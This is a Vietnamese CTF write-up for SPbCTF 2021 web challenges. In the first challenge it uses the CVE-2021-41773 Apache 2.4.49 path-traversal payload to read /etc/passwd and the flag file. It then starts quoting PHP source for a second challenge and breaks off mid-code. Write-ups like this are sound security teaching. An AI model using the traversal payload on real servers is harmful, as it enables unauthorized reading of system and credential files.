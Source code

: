 ```yaml
---
layout: post
title: "[WRITEUP SPbCTF 2021]: WEB"
categories: CTF
toc: true
---
```

Dưới đây là một số challenge mình giải quyết được trong SPbCTF's Student CTF 2021 Quals.

Tất cả source code mình sẽ để ở đây nhé [SOURCE](https://github.com/DauHoangTai/WriteupCTF/tree/master/2021/sbctf)

## Challenge BLT
Ở challenge này thì chúng ta được cung cấp `Dockerfile` và `docker-compose`.

Ở docker-compose thì thấy được server chạy apache, trong Dockerfile thì có đoạn
```
<Directory \"/\">\n \
 Require all granted\n \
</Directory>\n \
</VirtualHost>" > /usr/local/apache2/conf/apache.conf
```
Khá giống với CVE của apache 2.4.49 gần đây. Dùng burp để bắt lại request và thấy header `server` trả về đúng là Apache/2.4.49

![image](https://user-images.githubusercontent.com/54855855/136956286-03b5ebe9-7c98-42b3-bcf6-7b35da516419.png)

Vậy nên bây giờ thử payload của CVE-2021-41773 thôi.
```
/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/etc/passwd
```

![image](https://user-images.githubusercontent.com/54855855/136956499-bdac12e5-3531-4a6d-8120-cb742dd37557.png)
Kết quả Path Traversal và đọc được file /etc/passwd => bây giờ chỉ cần đọc flag thôi.

### Payload
```
/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/etc/passwd -> read /etc/passwd
/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/flag.txt -> read /flag.txt
```

### Flag
`spbctf{th3_lat3st_d03s_n0t_m3an_s3cur3}`

## Challenge 31 Line PHP
Bài nay được cung cấp code php như sau và các luồng hoạt động cơ bản của code mình comment ở code bên dưới luôn nhé.
```php
<?php
session_start();
if (!isset($_POST["data"])) { //kiểm tra có tham số data
    highlight_file(__FILE__);
    die();
}
if (!isset($_SESSION["id"])) { // không có sess id thì sẽ tạo 1 chuỗi md5 với random 16 byte
    $_SESSION["id"] = md5(random_bytes(16));
}
$id = $_SESSION["id"];
echo "Welcome, $id\r\n"; // in ra sess id được tạo ở trên

if (!file_exists("/var/www/html/upload/" . $id)) { // check folder
    mkdir("/var/www/html/upload/" . $id, 0755, true);
}
```